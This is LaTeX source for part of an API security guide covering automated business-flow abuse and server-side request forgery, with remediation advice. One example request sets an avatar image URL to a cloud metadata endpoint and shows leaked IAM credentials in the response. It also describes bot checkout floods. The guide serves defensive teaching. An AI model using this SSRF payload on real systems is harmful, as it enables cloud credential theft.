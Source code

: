 \documentclass[11pt]{article}
\begin{document}
\begin{httpbox}
POST /api/v1/checkout HTTP/1.1
Authorization: Bearer <bot_token_1>
Content-Type: application/json

{ "product_id": "SNEAKER-LTD-01", "qty": 1 }

# Repeated 5,000 times per second from 5,000 fake accounts
# with no CAPTCHA, no purchase velocity checks
\end{httpbox}

\begin{itemize}
  \item Other examples: scripted account creation to farm referral bonuses, automated scraping of pricing data to undercut competitors, bulk coupon code brute-forcing.
  \item \textbf{Fix:} device/behavioral fingerprinting, CAPTCHA on sensitive flows, purchase/action velocity limits per user and per device, and business-logic-aware monitoring (not just technical WAF rules).
\end{itemize}

\subsection{API7:2023 --- Server Side Request Forgery (SSRF)}
\begin{vulnbox}{API Fetches a Remote Resource Using a User-Supplied URL}
\begin{itemize}
  \item The API accepts a URL/URI as input (e.g., webhook URL, image import, PDF generator, avatar-from-URL) and fetches it server-side without validating the destination.
  \item Attacker redirects the server to internal-only resources --- cloud metadata endpoints, internal admin panels, or internal-only microservices.
\end{itemize}
\end{vulnbox}

\begin{httpbox}
POST /api/v1/profile/avatar-import HTTP/1.1
Authorization: Bearer <token>
Content-Type: application/json

{ "image_url": "https://cdn.example.com/avatars/1.png" }
\end{httpbox}

\begin{httpbox}
POST /api/v1/profile/avatar-import HTTP/1.1
Authorization: Bearer <token>
Content-Type: application/json

{ "image_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/prod-role" }

HTTP/1.1 200 OK
{ "AccessKeyId": "ASIA...", "SecretAccessKey": "wJal...",
  "Token": "IQoJb3JpZ2luX2..." }
\end{httpbox}
\end{document}
